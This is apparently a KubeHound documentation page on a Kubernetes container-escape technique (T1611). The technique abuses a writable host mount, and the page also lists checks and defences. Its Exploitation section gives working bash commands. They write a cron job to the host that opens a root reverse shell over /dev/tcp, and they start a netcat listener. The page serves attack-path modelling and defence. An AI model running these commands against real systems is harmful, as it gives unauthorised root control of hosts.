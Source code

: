 ```yaml
---
title: EXPLOIT_HOST_WRITE
---
```


<!--
id: EXPLOIT_HOST_WRITE
name: "Container escape: Write to sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_WRITE

| Source                                | Destination                 | MITRE                                                               |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary write from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is mounted in a container with write permissions there are a huge variety of techniques to achieve execution within a container. Given the array of techniques available we choose to assume that any writeable mount in a container is exploitable unless it corresponds to an entry in the ["known-good" list](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go#:~:text=SafeWriteMountList) of mounts. For illustration purposes we will consider an escape to host via creating a cron job to launch a reverse shell as the host's superuser if the host `/etc` directory is mounted with write permissions.

## Prerequisites

Execution within a container with a sensitive host directory mounted with write permissions.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_WRITE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)

## Exploitation

Assuming the `/etc/cron.d` directory or any parent is mounted with write access, we can achieve execution on the host as follows. First, resolve the container ip address:

```bash
CONTAINER_ADDRESS=$(ifconfig eth0  | grep inet | cut -d: -f2 | awk '{ print $2}')
```

Then, create a cronjob to trigger a reverse shell connection from the host to our container:

```bash
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo -n "(hostname) " >> /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo "(id)\" >& /dev/tcp/${CONTAINER_ADDRESS}/1337 0>&1'" >> /host-etc/cron.d/breakout
netcat -l -p 1337 2>&1
```

## Defences

### Monitoring

+ Leverage cloud workload security solutions to monitor for malicious activity on the host

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostWrite](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go)

## References:

+ [Bad Pods: Kubernetes Pod Privilege Escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation)
+ [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
+ [Atomic Red Team T1611](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1611/T1611.md)
